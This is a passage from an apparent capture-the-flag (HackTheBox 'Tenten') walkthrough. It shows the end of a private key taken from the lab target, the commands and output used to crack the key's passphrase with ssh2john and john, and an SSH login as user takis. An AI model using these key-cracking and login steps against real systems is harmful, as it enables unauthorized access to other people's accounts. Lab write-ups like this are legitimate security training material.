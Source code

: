     Xbo9FdNeLNmER/7GGdQARkpd52Uur08fIJW2wyS1bdgbBgw/G+puFAR8z7ipgj4W
    p9LoYqiuxaEbiD5zUzeOtKAKL/nfmzK82zbdPxMrv7TvHUSSWEUC4O9QKiB3amgf
    yWMjw3otH+ZLnBmy/fS6IVQ5OnV6rVhQ7+LRKe+qlYidzfp19lIL8UidbsBfWAzB
    9Xk0sH5c1NQT6spo/nQM3UNIkkn+a7zKPJmetHsO4Ob3xKLiSpw5f35SRV+rF+mO
    vIUE1/YssXMO7TK6iBIXCuuOUtOpGiLxNVRIaJvbGmazLWCSyptk5fJhPLkhuK+J
    YoZn9FNAuRiYFL3rw+6qol+KoqzoPJJek6WHRy8OSE+8Dz1ysTLIPB6tGKn7EWnP
    -----END RSA PRIVATE KEY-----



### Crack Key

I'll use `ssh2john` to create a hash, and crack it with `john`:



    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $/usr/share/john/ssh2john.py id_rsa > id_rsa.john
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $john id_rsa.john --wordlist=rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 4 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    superpassword    (id_rsa)
    Warning: Only 1 candidate left, minimum 4 needed for performance.
    1g 0:00:00:06 DONE (2020-07-13 19:34) 0.1663g/s 2386Kp/s 2386Kc/s 2386KC/s *7¡Vamos!
    Session completed



The password is "superpassword".

### SSH as takis

Given I only have one user name at this point, I'll try SSH as takis,
and it returns a shell:



    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $chmod 400 id_rsa
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $ssh -i id_rsa takis@10.10.10.10
    The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
    ECDSA key fingerprint is SHA256:AxKIYOMkqGk3v+ZKgHEM6QcEDw8c8/qi1l0CMNSx8uQ.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.10' (ECDSA) to the list of known hosts.
    Enter passphrase for key 'id_rsa': 
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
